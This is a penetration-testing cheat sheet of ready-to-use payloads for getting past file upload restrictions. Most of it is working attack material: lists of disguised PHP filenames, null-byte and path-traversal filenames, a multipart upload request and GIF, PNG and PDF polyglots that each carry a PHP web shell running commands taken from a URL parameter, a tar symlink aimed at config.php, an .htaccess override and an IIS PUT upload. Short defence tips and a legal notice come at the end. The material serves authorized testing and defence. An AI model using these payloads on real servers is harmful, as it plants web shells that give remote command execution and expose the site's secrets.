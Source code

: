 # **File Upload Bypass Payload Cheat Sheet**

This document contains comprehensive techniques to bypass file upload restrictions during security testing.

## **1. Basic File Upload Bypasses**

### **Extension Obfuscation**
```
shell.php
shell.php5
shell.pHp
shell.php.
shell.php%00.jpg
shell.php\x00.jpg
shell.php/
shell.php\\
shell.phar
```

### **Double Extension**
```
shell.jpg.php
shell.png.pHp5
shell.pdf.php7
```

### **Case Manipulation**
```
sHell.PHp
SHELL.phP5
```

## **2. Content-Type Bypasses**

### **Image MIME Types**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary123

------WebKitFormBoundary123
Content-Disposition: form-data; name="file"; filename="shell.jpg"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>
```

### **Common MIME Types to Try**
```
image/jpeg
image/png
application/pdf
text/plain
application/octet-stream
```

## **3. Magic Byte Bypasses**

### **PNG Header Bypass**
```hex
‰PNG
<?php system($_GET['cmd']); ?>
```

### **GIF Header Bypass**
```hex
GIF89a;
<?php system($_GET['cmd']); ?>
```

## **4. Advanced Bypass Techniques**

### **Null Byte Injection**
```
shell.php%00.jpg
shell.php\x00.png
```

### **Path Traversal in Filename**
```
../../../shell.php
..\..\..\shell.php
```

### **Overlong UTF-8 Sequences**
```
shell.%c0%80php
shell.%e0%80%80php
```

## **5. Archive Upload Bypasses**

### **ZIP with Malicious File**
```bash
zip malicious.zip shell.php -r ../uploads/
```

### **Tar with Symlink**
```bash
ln -s /var/www/html/config.php evil
tar -cvf payload.tar evil
```

## **6. Polyglot Files**

### **PDF-PHP Polyglot**
```hex
%PDF-1.4
<?php system($_GET['cmd']); ?>
```

### **GIF-JS Polyglot**
```javascript
GIF89a=0;
alert(1);/*
```

## **7. Server-Specific Bypasses**

### **Apache .htaccess Bypass**
```
.htaccess:
AddType application/x-httpd-php .jpg
```

### **IIS PUT Method**
```http
PUT /shell.aspx HTTP/1.1
Host: target.com
Content-Length: 25

<% Response.Write("test") %>
```

## **8. Blacklist Bypass Extensions**

### **PHP Alternatives**
```
.pht, .phpt, .pgif, .phps, .phtml
.inc, .hphp, .ctp, .module
```

### **Other Executable Extensions**
```
.jsp, .jspx, .war
.aspx, .asmx, .ashx
.py, .pl, .cgi
```

## **9. Testing Methodology**

1. **Verify allowed extensions** (try all variations)
2. **Check MIME validation** (Content-Type manipulation)
3. **Test file content validation** (magic bytes)
4. **Attempt path traversal** (directory climbing)
5. **Verify server parsing** (polyglot files)
6. **Check archive handling** (ZIP/TAR uploads)

## **10. Defense Recommendations**

- Use whitelisting instead of blacklisting
- Rename uploaded files
- Store files outside webroot
- Use proper Content-Type validation
- Scan files for malicious content
- Set proper file permissions

## **Legal Notice**

These techniques should only be used for authorized security testing. Unauthorized testing may violate laws and system policies. Always obtain proper permission before testing.